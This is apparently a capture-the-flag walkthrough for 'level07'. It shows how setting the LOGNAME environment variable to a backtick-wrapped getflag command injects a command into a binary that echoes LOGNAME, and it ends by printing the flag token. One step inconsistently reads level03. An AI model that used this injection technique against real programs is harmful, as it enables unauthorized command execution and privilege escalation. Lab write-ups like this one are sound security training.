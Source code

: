 # level07 solve

Firstly, at all, when we get logged and trying to see if we got the file we can see we have one file ` level07 `

```
$ ls
> level07
```

That's similar operation as level03. It looks like a binary file so we decide to run it.

```
$ ./level07
> level07
```

We decide to see inside the file.

```
$ cat ./level03
```

And we see some multiple line interesting. But the most curious line was `LOGNAME/bin/echo %s `

```
▒▒[▒LOGNAME/bin/echo %s
```

After some reflexion, we decide to try to see if `LOGNAME` is in machine environment.


```
$ env
> ...
> HOME=/home/user/level08
> SHLVL=4
> LOGNAME=level08
> ...
```

And it is the case, so we decide to redirect LOGNAME on getflag, because we suppose that the executable use a ` execve ` like for execute LOGNAME with the bin ` echo ` . We add ``` \` ``` for print the result of the command.

```
$ export LOGNAME=\`getflag\`
```

Trying again and...

```
$ ./level07
> Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level06">previous level</a> - <a href="../../level08">next level</a>
